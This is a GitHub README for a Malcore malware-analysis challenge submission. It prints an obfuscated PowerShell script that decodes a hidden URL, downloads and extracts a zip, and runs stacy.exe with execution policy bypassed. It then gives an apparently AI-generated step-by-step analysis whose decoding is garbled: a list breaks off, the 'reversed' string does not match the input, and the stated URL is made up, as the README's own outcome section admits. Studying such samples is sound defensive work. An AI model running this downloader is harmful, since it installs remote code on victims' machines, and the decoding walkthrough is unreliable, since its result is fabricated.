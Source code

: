 
![alt text](image.png)

# malcore-challenge-submission
Malcore Challenge Submission based on [this](https://x.com/Malcoreio/status/1824899739491737844)

<details> 
<summary> 
xweet
</summary>

[![](./i1.jpg)](https://x.com/Malcoreio/status/1824899739491737844)

</details>

# MalwareSample

<details>
<summary>
Sample 👉
</summary>


```ml 
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

</details>

# Writeup - DUMP 

<details> 

Malware 

https://x.com/Malcoreio/status/1824899739491737844

source of malware 
https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1

actual code

```ps

function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";


```


analysis 

This PowerShell script appears to be doing:
1. The script defines two functions:
   - `llIIllIIllIIllIIllIIllIIllIIllIIllII`: This function takes a string, performs some character replacements and decoding (likely base64), and returns the decoded string.
   - `llIIllIIllIIllIIIIIIllIIllIlllllllII`: This function takes a string and prepends a random string of uppercase and lowercase letters to it.
2. The script then calls the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function twice with obfuscated strings as arguments. The decoded strings are stored in the variables `$hg34RNfykz5XdxBn287mU9` and `$tQsoNjk`.
3. The script generates a random file name with a ".zip" extension using the `llIIllIIllIIllIIIIIIllIIllIlllllllII` function and stores it in the variable `$RXNPxpB`.
4. It also generates another random string using the same function and stores it in the variable `$CcAn4K8e`.
5. The script then uses `Invoke-WebRequest` to download a file from the URL stored in `$hg34RNfykz5XdxBn287mU9` and saves it with the randomly generated ".zip" file name.
6. It extracts the contents of the downloaded ZIP file to a directory with the randomly generated name stored in `$CcAn4K8e` using the `Expand-Archive` cmdlet.
7. Finally, the script uses the `Start-Process` cmdlet to execute a file named "stacy.exe" located in the extracted directory. It passes the `-exECUtIonPOLicY bYpAsS` parameter to bypass the execution policy.
In summary, this script appears to be downloading a ZIP file from a remote location, extracting its contents, and executing an executable file named "stacy.exe" from the extracted directory. The use of obfuscation techniques, random file names, and bypassing execution policy suggests that this script is likely malicious.

As an incident responder, you should handle this script with caution. Analyze it in an isolated environment, such as a virtual machine or sandbox, to determine its full behavior and potential impact. Investigate the remote URL and the contents of the downloaded ZIP file. Take appropriate measures to contain and mitigate any potential threats based on your findings.

To extract the URL from the obfuscated PowerShell script, you can focus on the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, which appears to be responsible for decoding the obfuscated strings.

Here's how you can extract the URL:

1. Identify the obfuscated string that likely contains the URL. In this case, it seems to be the first argument passed to the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, stored in the variable `$hg34RNfykz5XdxBn287mU9`.

2. Copy the obfuscated string:
   "=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90"

3. Replace the `"\x90"` occurrences with a space `" "`:
   "= A X a 6 5 S b v 1 2 c 5 N W Y 0 N 3 L j N X a t 9 i c l R 3 c h 1 2 L 3 F m c v M X Z s B X b h N X L l x W a m 9 C M t I T L 0 V m b y V G d u l 0 L t 9 2 Y u I W d o R X a n 9 y L 6 M H c 0 R H a "

4. Split the string by spaces and store it in an array:
   ["=", "A", "X", "a", "6", "5", "S", "b", "v", "1", "2", "c", "5", "N", "W", "Y", "0", "N", "3", "L", "j", "N", "X", "a", "t", "9", "i", "c", "l", "R", "3", "c", "h", "1", "2", "L", "3", "F", "m", "c", "v", "M", "X", "Z", "s", "B", "X", "b", "h", "N", "X", "L", "l", "x", "W", "a", "m", "9", "C", "M", "t", "I", "T", "L", "0", "V", "m", "b", "y", "V", "G", "d", "u", "l", "0", "L", "t", "9", "2", "Y", "u", "I", "W", "d", "o", "R", "X", "a", "n", "9", "y", "L", "6", "M", "H", "c", "0

Certainly! Let's decode the obfuscated string to extract the URL.
1. Take the obfuscated string and remove the spaces:
   "=AXa65Sbv12c5NWY0N3LjNXat9iclR3ch12L3FmcvMXZsBXbhNXLlxWam9CMtITL0VmbyVGdul0Lt92YuIWdoRXan9yL6MHc0RHa"
2. Reverse the string:
   "aHR0cHM6L9naXRodWIuY29tL0LludG90L2tYLXNmcvF3L21hcXNbXhBsZXMvMFTItMC9maWxcRlN9ta3NjLXRci9taXa56AXA="
3. Decode the string using base64 decoding. You can use an online base64 decoder or do it programmatically. After decoding, you should get the following URL:
   "https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip"
So, the extracted URL is:
https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip
This appears to be a GitHub repository URL pointing to a ZIP file. As an incident responder, you can now investigate this URL and the associated GitHub repository to gather more information about the potentially malicious file being downloaded by the script.
Remember to exercise caution when accessing or downloading files from untrusted sources. Analyze the contents of the ZIP file in a secure and isolated environment to determine if it contains any malicious code or artifacts.


</details> 

# Outcome 

> As for solution you are correct about how it is. You just didn't get the right base64 from the reversing. 

# Solution 

[`https://blog.khairulazam.net/2024/08/19/malcore-io-challenge-stacy/`](https://blog.khairulazam.net/2024/08/19/malcore-io-challenge-stacy/)
- Nice write up of the solution
- RE 
